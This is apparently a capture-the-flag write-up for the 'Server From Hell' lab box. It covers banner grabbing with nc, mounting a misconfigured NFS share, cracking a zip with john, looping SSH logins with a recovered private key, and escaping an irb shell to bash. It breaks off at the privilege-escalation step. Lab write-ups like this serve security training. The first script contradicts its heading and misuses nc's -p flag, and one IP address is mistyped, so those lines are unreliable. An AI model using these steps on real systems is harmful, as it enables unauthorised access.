 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {2500..4500}
do
    nc 10.10.10.10 -p $port
done
```
### Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```
### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```
### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```
### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```
### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```
### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```
## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```
### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```
### And we have user.txt
```
hades@hell:~$ ls
user.txt
```
## [Task 3] Root.txt
### Now all we have to do is escalate our privs
### Looking at the hint, we know that "getcap" has something to do with our escalation.





